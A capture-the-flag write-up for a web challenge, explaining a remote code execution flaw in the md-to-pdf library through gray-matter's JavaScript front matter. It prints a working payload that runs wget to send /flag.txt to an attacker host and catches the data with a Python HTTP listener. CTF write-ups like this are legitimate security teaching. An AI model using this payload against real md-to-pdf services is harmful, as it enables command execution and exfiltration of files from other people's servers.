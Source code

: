 # [Web] Blinker Fuild

BlinkerFluids is a web application that allows for its users to create an application in `Markdown`. Since we got access to the source code, we know that the library `md-to-pdf` is in use. After some searching, we find out that its dependency to `gray-matter` makes it dependent to a [Remote Code Execution](https://github.com/simonhaenisch/md-to-pdf/issues/99) vulnerability.

Seems promising, let’s try it out!
We use the payload:

```
---js
((require("child_process")).execSync("wget -q http://1.2.3.4:4444/?aaa=$(cat /flag.txt)"))
---
RCE
```

![Markdown](./img/web_blinker_1.png)

On the `python -m http.server 4444` server setup, we do receive the callback:

![Flag](./img/web_blinker_2.png)

The flag is:

```
HTP{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}
```
